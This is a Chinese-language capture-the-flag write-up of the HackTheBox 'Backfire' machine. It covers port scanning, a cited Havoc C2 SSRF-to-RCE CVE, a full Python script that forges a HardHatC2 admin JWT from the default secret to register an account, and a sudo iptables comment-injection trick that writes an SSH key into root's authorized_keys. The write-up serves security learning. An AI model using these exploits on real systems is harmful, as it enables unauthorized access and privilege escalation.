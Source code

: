```yaml
---
title: Backfire
date: 2025-01-21
weight: 643
tags:
  - linux
  - medium
  - cve-2024-41570
  - havoc
  - hardhat-c2
  - iptables
  - sudo
---
```


![backfire_rank.png](backfire_rank.png)

## 00. 摘要

利用了两个与C2工具相关的漏洞，并且 `sudo -l` 发现 `iptables`。利用 `iptables` 提权到root。

## 01. 信息收集

端口扫描

```bash
$ rustscan -u 5000 -a 10.129.34.127
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/home/lambermaybe/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.34.127:22
Open 10.129.34.127:8000
Open 10.129.34.127:443
```

8000 端口有http服务，访问找到两个文件

![index.png](index.png)

```
disable_tls.patch
havoc.yaotl
```


## 02. ilya用户权限

google搜索发现是 `havoc` 的RCE，找到 CVE-2024-41570 拿到 `ilya` 的权限。

> [!note]
> 参考链接：
> 1. https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/
> 2. https://github.com/chebuya/Havoc-C2-SSRF-poc
> 3. https://github.com/HimmeL-Byte/CVE-2024-41570-SSRF-RCE

在用户目录下，看见一个 `hardhat.txt`

```bash
ilya@backfire:~$ cat hardhat.txt
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 
```


## 03. sergej用户权限

google搜索 `HardHatC2` 的漏洞，找到一个 [越权RCE漏洞](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)

将所需要用到的端口内网穿透出来

```shell
ssh -i id_rsa ilya@10.10.11.49 -L 7096:127.0.0.1:7096 -L 5000:127.0.0.1:5000 -g
```

使用以下脚本创建一个管理员账户

```python
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests
 
rhost = '127.0.0.1:5000'
 
# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()
 
expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
 
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
 
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

然后进入后台，找到执行命令的终端，将自己的 `ssh-key` 写进 `sergej` 的 `authorized_keys` 中

ssh连上去，然后查看 `sudo -l` ，发现有如下权限

```bash
sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
```

## 04. 提权

找到参考文章 [从sudo iptables到本地权限提升的旅程](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/)

构造以下内容，将自己的ssh公钥写进root用户的 `authorized_keys` 中，然后ssh连接root用户

```shell
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHjrHDPIy3BQDcGbfw9i8QbnIKMpWdLQb4WEDueDYfcb \n'
sudo /usr/sbin/iptables -S
sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```